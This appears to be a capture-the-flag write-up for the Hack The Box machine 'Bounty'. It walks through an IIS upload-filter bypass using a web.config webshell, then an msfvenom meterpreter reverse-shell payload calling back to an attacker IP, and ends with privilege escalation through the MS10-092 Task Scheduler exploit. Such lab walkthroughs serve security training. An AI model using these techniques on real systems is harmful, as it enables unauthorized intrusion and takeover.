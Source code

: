 # Bounty

[![Bounty](https://secure.gravatar.com/avatar/77c9ae29c6d9f3add2af21410c1090d5.jpg?s=150&d=retro&r=x)](https://www.hackthebox.eu/home/machines/profile/142)

## User
### Nmap
We begin by running Nmap.
```sh
$ nmap -T4 -A -v 10.10.10.93
```
As we can see port 80 is open,but the website is empty.

### Dirb
We run dirb to get hidden directories.
```sh
$ dirb http://10.10.10.93
```
You should have found the **'uploadedfiles'** directory, but still nothing you can do.
As we previously saw from nmap scan, we are dealing with an IIS server. So we will use dirb's extension feature to search for arbitrary file extensions that are used by the IIS server until we find the right one.

```sh
$ dirb http://10.10.10.93/ -X .aspx
```

Running the above command we find the **'transfer.aspx'** file, where we can upload files. 
However uploading an **.aspx** reverse shell doesn't seem to work. By viewing page source code, we can see that a function named **'ValidateFile()'** is called and it is blacklisting file extensions. So we have to find the right extension to exploit this. 
With the information from the message we get when we try to upload a file with the wrong extension and a little google search, we come up with [this](/Bounty/web.config) structure of file.

- sources: 
-- https://soroush.secproject.com/blog/tag/unrestricted-file-upload/
-- https://github.com/tennc/webshell/blob/master/fuzzdb-webshell/asp/cmd.asp

By uploading the [web.config](/Write-ups/Bounty/web.config) file, we get the pleasant message **'File uploaded successfully.'**. 
Next we go to **'uploadedfiles/web.config'** where we should get a field to execute system commands, along with some system information.

**Careful**! We have changed a line in the previous script so we get into a word-writable Windows directory, otherwise we wouldn't have access.
- directory changed:
-- C:\ 
-- C:\windows\system32\spool\drivers\color\ 

**Warning!** The file gets deleted after a few seconds. So act quickly.

### Getting user
As long as we have a basic RCE, getting user is a piece of cake.
```sh
$ more C:\Users\merlin\Desktop\user.txt
```

## Root
### Priv esc
Now we can upload anything we want to the remote machine via **'transfer.aspx'**, by simply appending the **.config** extension to the file. The uploaded files can then be found in the directory **'C:\inetpub\wwwroot\uploadedfiles\'**

### Msfvenom payload
We create a payload with msfvenom and we upload it to remote machine.
```sh
$ msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.10.10 LPORT=4444 -f exe > shell.exe
```
**Careful**! The payload must be **x64** architecture, otherwise this is not going to work. Once we upload the payload copy it in the users Desktop.
```sh
$ copy /B C:\inetpub\wwwroot\uploadedfiles\shell.exe.config C:\Users\merlin\Desktop\shell.exe
```

### Msfconsole
Next step is to open msfconsole and set it up.
```sh
$ msfconsole
$ use exploit/multi/handler
$ set payload windows/x64/meterpreter/reverse_tcp
$ set LHOST 10.10.10.10
$ set LPOST 4444
$ exploit -j
```
Back in the remote machine we execute the **'shell.exe'** file we uploaded by running the following command.
```sh
$ start shell.exe
```

### Getting root

We now have an open session running in the background. After hours (for me) of enumeration and again some google search, we can see that the remote system is vulnerable in the **Task Scheduler** and we can use this to elevate our privilages.
- source:
-- https://docs.microsoft.com/en-us/security-updates/securitybulletins/2010/ms10-092

In the same msfconsole window, while we already have an open session, we put it in the background by typing:

```
background
```

And we make use of a windows exploit suggester by assigning it the already open meterpreter session.

```sh
$ use post/multi/recon/local_exploit_suggester
$ sessions
$ set session <session number>
```

The exploit **'exploit/windows/local/ms10_092_schelevator'** seems to be promising.
- CVE:
-- https://www.exploit-db.com/exploits/15589/

So we make use of it on the current opened session to see if it works.

```sh
$ use exploit/windows/local/ms10_092_schelevator
$ set session <session number>
$ set payload windows/x64/meterpreter/reverse_tcp
$ set LHOST <local ip>
$ set LPORT 4444
$ exploit
```

OK. We got a new session running where if we type the bellow command, we will see we have Administrator privileges.
```sh
$ sysinfo
```

Final task, let's get root!!!
```sh
$ more C:\Users\Administrator\Desktop\root.txt
```

[![bertolis](https://www.hackthebox.eu/badge/image/27897.png)](https://www.hackthebox.eu/home/users/profile/27897)
